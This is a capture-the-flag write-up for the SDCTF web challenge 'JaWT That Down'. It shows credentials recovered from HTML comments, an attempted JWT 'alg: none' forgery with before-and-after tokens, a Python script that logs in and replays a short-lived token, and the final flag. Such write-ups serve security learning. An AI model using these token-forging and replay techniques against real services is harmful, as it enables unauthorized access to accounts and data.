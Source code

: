 # JaWT That Down

**Category**: Web
**Level**: Easy
**Points**: 200
**Description**:
```
The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website
https://jawt.sdc.tf/
```

## Writeup

The description of this challenge doesn't have much clues but the creator have deliberately captilized the letters 'J', 'W', 'T' in the heading which caught our attention. We immediately got the hint that this challenge will require the knowledge of JWT and its exploitation. We started by glancing through the website's functionality on a very high level and were easily able to figure out that we somehow have to get through the user login. This will provide us the JWT token which can be further exploited to get the flag. After this high level run through, I was assigned to pick up this challenge.

I started by performing SQL injection in the login form with simple payloads from the top of my head but it didn't work. I was tempted to run sqlmap behind the scenes but I resisted and looked through the source code using browser's(Chrome in my case) debugger tools. I took this detour because I had also spent time on the challenge 'HuMongous Mistake'(which I wasn't able to solve) and found some useful comments in the HTML source code. 
In a similar manner, I found the user credentials and was able to successfully log in which saved me a lot of time.

<screenshot> * 1

After login, the first thing that caught my eye was an extra menu item named 'Flag' on the top left but once I click on it, it showed "Invalid Token: Access Denied". 

<screenshot> * 2

I fired up Burp Suite and intercepted the HTTP call which is sent once I click on 'Flag'. Let's call it flag endpoint. The first thing that caught my eye was the JWT token which is passed in Cookie request header. So, I replayed the request after removing the Cookie request header which showed me a different error "No Token: Access Denied". I was fully convinced that I am on the right track and I need to pass a valid JWT token in order to proceed. 

<screenshot>

My next step was to figure out why my JWT isn't valid. I read the token on https://jwt.io/ and figured out that the issue time and expiry time has a gap of mere 2 seconds which explained the error "Invalid Token: Access Denied" because by the time I clicked on 'Flag' the token was already expired. I had two solutions in my mind to overcome this problem:
- Either, I can verify if JWT signature verfiication can be bypassed which will allow me to increase the expiry time.
- Or, I make a script to automate this process of logging in and using the JWT token in the next flag endpoint.

### First Approach

I went with the first option because writing a script for me would take comparatively more time. Here is a [good read of JWT's 'none' algorithm](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f).
Essentially, I divided the JWT token into 3 base64 encoded parts by splitting it using '.'(period). I base64 decoded the first part on https://www.base64decode.org/, changed the value of "alg" to "none", base64 encoded it on https://www.base64encode.org/. This was tampering of first part of JWT(called header). Then I did the same thing with the second part(called payload) except I increased the expiry to a month. I joined both the parts and recreated my final JWT token

**Before**: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjUyMTc3MTE0fQ.jmcOs7t4hSFYad3wz2S993jJ7lQOYbG_paBrqSByBBM`

**After**: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjU0ODU3NDI3fQ.`

However, I got the same error "Invalid Token: Access Denied" using my new token. Hence, I scratched out the first approach and went back to the second approach.

### Second Approach

I quickly wrote a little python script which looked like this:
```python
import requests
from requests_toolbelt.utils import dump

ch = 's'

loginUrl = "https://jawt.sdc.tf/login"
payload = {'username':'AzureDiamond','password':'hunter2'}

r = requests.post(loginUrl, data=payload, allow_redirects=False)
cookieHeader = r.headers['Set-Cookie']
if not cookieHeader:
	print("cookie header not found")
	exit()

cookieKeyValue = cookieHeader.split(";")[0].split("=")

flagUrl = "https://jawt.sdc.tf/"+ch

cookies = {}
cookies[cookieKeyValue[0]] = cookieKeyValue[1]

re = requests.get(flagUrl, cookies=cookies)
data = dump.dump_all(re)
print(data.decode('utf-8'))
```

The above script hits the `/login` endpoint, reads the JWT token from Set-Cookie response header, sets it in the the flag endpoint `/s` and prints the request/response of the flag endpoint. It gave me the following output:

```http
< GET /s HTTP/1.1
< Host: jawt.sdc.tf
< User-Agent: python-requests/2.27.1
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiMzc5Y2EyOWRmNmQ5ZjM1N2U5ZTdjZWEzOTcxNzQ2NiIsImlhdCI6MTY1MjE3OTI4MCwiZXhwIjoxNjUyMTc5MjgyfQ.7lxeRGwHBFhpeChplXje1-LLHbF_mdZx7DzrCpgl32M
<

> HTTP/1.1 200 OK
> Date: Tue, 10 May 2022 10:41:20 GMT
> Content-Length: 1
> Connection: keep-alive
> X-Powered-By: Express
> Via: 1.1 google
> CF-Cache-Status: DYNAMIC
> Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
> Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=aiYf7PWSnmhxBfoNe5a%2BJ8YB3o%2BvUj8O1CK55r300zSWI50ioyAHEvt38IH2N8wAQ2B9uC2tmKKR%2B7CaAzOqcSLY%2FOcBKGoaTu%2BmO8MAyiIyIQB3LQ0VOZckW%2BXQMQ%3D%3D"}],"group":"cf-nel","max_age":604800}
> NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
> Server: cloudflare
> CF-RAY: 70920fd6dab29e47-SIN
> alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
>
d
```

I wasn't able to understand the response of this for a long time. I tried hitting `/d` endpoint by changing the python script but it gave me 404 not found. Similariy, I tried hitting `/sd` and enumerated from `/a` to `/z` both in small and capital letters but got the same result. At this point, I took a new challenge. I later got an idea to give a try to `/s/d` and it worked. It gave me `/c`. Since all the flag of this challenge started with 'sdctf' therefore I continued this methodology by changing the script, saving and hitting one by one. Evnetually I got this endpoint `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}` which has the flag

**Flag** - `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`


## Real World Application

In real world applications, short-lived JWT tokens are very much used. But even if they are short-lived, they can be exploited to retrieve sensitive information. Hence, reducing the expiry time wouldn't necessarily mean that the system is protected.
During the course of this challenge, I had great fun reading about JWT, JWK and JWS which enhanced my knowledge while at the same time helped me practically understand the exploitation of it. 











